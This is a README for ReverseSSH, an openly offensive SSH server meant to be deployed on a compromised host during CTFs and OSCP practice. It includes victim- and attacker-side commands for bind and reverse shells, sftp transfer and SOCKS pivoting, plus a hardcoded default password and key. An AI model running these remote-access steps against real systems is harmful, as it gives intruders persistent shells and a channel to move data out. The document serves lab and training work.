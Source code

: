 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**

![Showcase](doc/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead, you can go the way to simply deploy the **lightweight ssh server** (<1.5MB) `reverse-ssh` onto the target, and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access**  (check windows caveats below)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* **Can be used as bind- and reverse-shell**
* Supports **Unix** and **Windows** operating systems

**Windows caveats**

A fully interactive powershell on windows relies on [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`.
On earlier versions you can still get an interactive reverse shell that can't handle virtual terminal codes such as arrow keys or keyboard interrupts.
In such cases you have to append the `cmd` command, i.e. `ssh <OPTIONS> <IP> cmd`.

You can achieve full interactive shell access for older windows versions by dropping `ssh-shellhost.exe` [from OpenSSH for Windows](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) in the same directory as `reverse-ssh` and then use flag `-s ssh-shellhost.exe`.
This will pipe all traffic through `ssh-shellhost.exe`, which mimics a pty and transforms all virtual terminal codes such that windows can understand.


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```
# Fully interactive shell access
$ ssh -p <RPORT> <RHOST>

# Simple command execution
$ ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
$ sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
$ ssh -p <RPORT> -D 9050 <RHOST>
```

### Simple bind shell scenario

```
# Victim
$ victim$ ./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT of 8888 collides with incoming connections; use the flag `-b 8889` or similar on the victim in that case
attacker$ ./reverse-ssh -l :<LPORT>

# On victim
victim$ ./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with user/pass authentication
victim$ ./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```
reverseSSH v1.1.0  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```
$ make

# or to additionally created binaries packed with upx
$ make compressed
```

You can also specify a different default shell (`RS_SHELL`), a personalized password (`RS_PASS`) or an authorized key (`RS_PUB`) when compiling:

```
$ ssh-keygen -t ed25519 -f id_reverse-ssh
$ RS_SHELL="/bin/sh" RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

### Building for different operating systems or architectures

By default, `reverse-ssh` is compiled for your current OS and architecture, as well as for linux and windows in x86 and x64.
To compile for other architectures or another OS you can provide environmental variables which match your target, e.g. for linux/arm64:

```
$ GOARCH=arm64 GOOS=linux make compressed
```

A list of available targets in format `OS/arch` can be obtained via `go tool dist list`.


## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**
